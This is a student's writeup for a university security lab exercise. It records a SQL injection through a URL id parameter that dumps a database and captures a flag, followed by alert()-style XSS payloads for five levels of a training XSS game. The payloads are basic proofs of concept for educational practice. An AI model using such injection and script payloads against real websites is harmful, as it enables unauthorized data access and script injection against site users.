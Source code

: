 Writeup 10 - Crypto II
=====

Name: Tumie Hurd  
Section: 0101  

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.  

Digital acknowledgement of honor pledge: Tumie Hurd  

## Assignment 10 Writeup   

### Part 1 (70 Pts)   
I knew that I would need to use SQL injection for this part, but I did not see any input fields.  I figured that database queries were being run with the id parameter in the url.  I began experimenting with different injections and I was able to return the entire database with the command ```/item?id=0' or '1=1```  

The flag that I found was ```CMSC38R-{y0U-are_the_5ql_n1nja}```  
  
### Part 2 (30 Pts)  

Challege #1   
  
```<script>alert('Test')</script>```  
  
Challenge #2  
```<img src='Testing' onerror=alert("TEST")>```  
Challenge #3  
```https://xss-game.appspot.com/level3/frame#1'><script>alert('')</script>```  
Challenge #4  
```');alert('Test```   
Challegne #5  
```https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('')```  
Challeneg #6  
``` ```  
    
